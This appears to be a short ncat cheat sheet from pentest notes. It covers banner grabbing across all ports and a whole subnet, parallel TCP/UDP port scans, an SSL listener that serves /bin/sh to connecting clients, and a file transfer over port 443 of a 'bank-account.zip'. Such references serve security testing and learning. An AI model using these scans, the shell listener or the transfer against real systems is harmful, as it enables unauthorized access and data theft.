 # ncat

## Scanning&#x20;

### banner grab

```
apt install ncat

for port in {1..65535}; do echo "" | ncat -vvn 192.168.56.170 $port 2>&1 | grep "READ SUCCESS for EID " | grep -v "peer unspecified" | cut -d ":" -f 3-  ; done
```

### banner grab the whole subnet

```
apt install ncat

for hosts in {1..254}; do for ports in {1..65535}; do echo "" | ncat -vvn 192.168.1.$hosts $ports 2>&1 | grep "READ SUCCESS for EID " | grep -v "peer unspecified" ; done ;done
```

### port scanner

```
tcp scan:
parallel ncat -nvz [host] ::: {1..65535}  2>&1 | grep "Connected"

udp scan:
parallel ncat -nvuz [host] ::: {1..65535}  2>&1 | grep "Connected"
```

## SSL connection

```
listener: nc --ssl -nvlp [local port] -e /bin/sh
client: nc --ssl localhost [remote port]
```

## FTP

```
nc -l -p 443 < C:\bank-account.zip --from machine that has the file, this one is windows.

nc -w3 192.168.31.201 443 > C:\bank-account.zip
```
